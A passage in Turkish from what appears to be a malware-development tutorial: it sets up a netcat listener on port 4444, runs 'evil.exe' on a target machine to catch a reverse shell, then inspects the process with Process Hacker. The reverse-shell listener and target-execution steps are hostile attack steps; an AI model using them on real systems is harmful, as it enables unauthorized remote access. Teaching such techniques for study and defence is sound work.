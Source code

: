 dinleyicimici de hazırlayalım:   

```bash
nc -lvp 4444
```

Ve hedef makinesinde çalıştıralım:

```powershell
.\evil.exe
```

![run evil.exe](./images/6/2021-09-18_20-39.png){width="75%"}

Gördüğünüz her şey doğru.   

`evil.exe`'yi incelemek için Process Hacker'ı kullanacağız. [Process Hacker](https://processhacker.sourceforge.io/downloads.php), bir cihazda hangi işlemlerin çalıştığını görmenize, CPU kaynaklarını tüketen programları tanımlamanıza ve bir işlemle ilişkili ağ bağlantılarını belirlemenize olanak tanıyan açık kaynaklı bir araçtır.    

![process hacker evil.exe](./images/6/2021-09-18_23-52.png){width="75%"}

